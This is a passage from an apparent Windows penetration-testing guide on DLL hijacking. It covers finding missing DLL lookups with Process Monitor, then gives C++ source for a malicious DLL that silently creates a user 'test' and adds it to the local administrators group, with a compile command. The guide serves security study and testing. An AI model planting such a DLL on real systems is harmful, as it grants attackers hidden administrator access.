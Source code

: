 We can use Process Monitor (Procmon) to capture and filter events related to the target service:

{{< hint style=notes >}}
**Note**: Using Process Monitor requires administrative privileges, so you’ll need to copy the service binary to a local machine.
{{< /hint >}}

* Launch **Process Monitor**.
* **Add a filter** to show only events related to the service's process name.
* **Restart the service** while Procmon is actively capturing:

```powershell
Restart-Service <service>
```

* **Look for CreateFile events** where the service attempts to access a <name>.dll file across different directories.

In the Detail column of these events, if you see `NAME NOT FOUND`, it means the system attempted to locate the DLL in that path, but it wasn’t there. This indicates a potential opportunity to hijack the DLL.

To exploit this:
* Identify the first directory in the search order where the service attempts to load the missing DLL.
* If you have write permissions to that location, **place a malicious DLL with the same name**.

{{< details summary="Example of Cpp DLL" >}}
```Cpp
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,
DWORD ul_reason_for_call,
LPVOID lpReserved )
{
  switch ( ul_reason_for_call )
  {
    case DLL_PROCESS_ATTACH:
    int i;
    i = system ("net user test yourpass /add");
    i = system ("net localgroup administrators test /add");
    break;
    case DLL_THREAD_ATTACH:
    break;
    case DLL_THREAD_DETACH:
    break;
    case DLL_PROCESS_DETACH:
    break;
  }
  return TRUE;
}
```

Compile the code:
```bash
gcc DLL_NAME.cpp --shared -o <DLL_NAME>.dll
```
